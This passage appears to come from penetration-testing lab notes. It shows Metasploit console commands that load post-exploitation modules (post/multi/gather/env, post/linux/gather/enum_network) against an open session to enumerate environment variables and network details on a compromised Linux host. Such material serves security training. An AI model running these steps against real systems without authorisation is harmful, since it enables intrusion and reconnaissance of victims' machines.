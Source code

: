 ```bash
loot
# Check the enumerated configuration files
```

- Enumerate system **environment variables**

```bash
search env platform:linux
use post/multi/gather/env
info
# Description:
#   This module prints out the operating system environment variables
sessions
set SESSION 3
run
```

![Metasploit - post/multi/gather/env](3-metasploitassets/image-20230422124555124.png)

- Enumerate **network information**

```bash
search enum_network
use post/linux/gather/enum_network
info
# Description:
#   This module gathers network information from the target system 
#   IPTables rules, interfaces, wireless information, open and listening 
#   ports, active network connections, DNS information and SSH 
#   information.
set SESSION 3
run
```

![Metasploit - post/linux/gather/enum_network](3-metasploitassets/image-20230422124816182.png)
